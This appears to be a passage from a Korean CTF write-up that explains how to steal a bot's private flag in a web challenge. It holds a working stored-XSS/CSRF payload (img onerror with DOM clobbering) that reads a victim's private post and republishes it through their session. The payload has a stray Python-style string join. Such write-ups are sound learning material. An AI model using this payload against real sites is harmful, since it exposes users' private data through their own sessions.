 ```js
    if (!post.is_public && (!req.user || post.user_id !== req.user.id)) {
      return res.status(403).render("error", {
        message: "이 게시물에 접근할 권한이 없습니다.",
        user: req.user,
      });
    }

    if (post.is_public && (req.user || post.user_id === req.user.id))
      bot(post.id);

...
```

bot 로직을 확인해보면 `첫번째 유저 방문 -> 다음에 방문할 유저에 대한 id를 comment 기능으로 작성 -> 두번째 유저 방문 -> 자신의 글에 FLAG가 담긴 비공개 post 작성 -> 사용자가 공개한 게시글 조회` 순으로 처리가 진행되는 것을 볼 수 있습니다.
여기서 첫번째 유저의 경우에는 별 의미가 없는 방문이며, 핵심은 FLAG를 가지고 있는 두번째 유저입니다. 사용자가 작성한 게시글만을 방문했을때 자신의 FLAG가 담긴 비공개 게시글이 의도치 않게 공개처리 되어서 공격자가 FLAG를 탈취하게 해야합니다.

여기서 공격자는 악성 게시글을 주입하고 CSRF를 의도시켜야합니다. 아래와 같은 순서로 악성 스크립트가 실행됩니다.

1. 자신의 메인 페이지 (/) 방문
2. 메인 페이지에서 게시글 제목이 `th1s1smy2ecreTS0C0ntentD4ta`인 게시글을 찾은 후 post_id 추출
3. 해당 post_id 게시글 방문 후 TITLE 정보와 FLAG 정보 추출
4. 추출한 데이터를 기반으로 /edit endpoint를 이용해 title, content는 그대로 수정되기 전 값으로 유지하고 게시글을 공개 처리
5. 공개 처리된 게시글 post_id를 공격자의 게시글에 comment로 작성
6. 공격자는 comment에 달린 post_id를 이용해 게시글에 방문 -> FLAG 획득

조금 복잡한 과정을 거쳐야하며 하나의 조건이라도 일치하지 않을 시 FLAG 획득은 실패합니다. 또한 처음 게시글을 바로 공개할 경우 bot은 딱 한번만 공개된 게시글에 방문하기 떄문에, 처음에는 정상적인 데이터로 게시글을 작성하고 bot이 comment를 달때 악성 스크립트가 담긴 게시글로 즉시 수정해야합니다.

1~5번 과정을 모두 수행하는 악성 게시글 스크립트입니다.

```javascript
<form name="bar" id="lmao "><input form="lmao" name="removeAttribute" /></form>
<img src="X" onerror="fetch('/posts/', { method: 'GET', credentials: 'include'
}).then(res => res.text()).then(text => { const parser = new DOMParser(); const
doc = parser.parseFromString(text, 'text/html'); const postId =
[...doc.querySelectorAll('a.list-group-item')].find(a =>
a.querySelector('h5')?.textContent.trim() ===
'th1s1smy2ecreTS0C0ntentD4ta')?.getAttribute('href')?.split('/')?.pop(); return
postId; }).then((post_id) => { fetch(`/posts/${post_id}/edit`, { method: 'GET',
credentials: 'include' }).then((res) => res.text()).then((text) => { const
parser = new DOMParser(); const doc = parser.parseFromString(text, 'text/html');
const flag = doc.querySelector('#content')?.value; return flag; }).then((flag)
=> { fetch(`/posts/${post_id}/edit`, { method: 'POST', headers: {
'Content-Type': 'application/x-www-form-urlencoded' }, body:
`title=th1s1smy2ecreTS0C0ntentD4ta&content=${flag}&isPublic=on`, credentials:
'include' }).then(() => { fetch('/posts/""" + post_id + """/comments', { method:
'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body:
`content=uuid-${post_id}`, credentials: 'include' });});});});" />
```

script 태그를 쓸 수 없음으로, img의 onerror 이벤트로 악성 스크립트를 주입시켜야합니다.

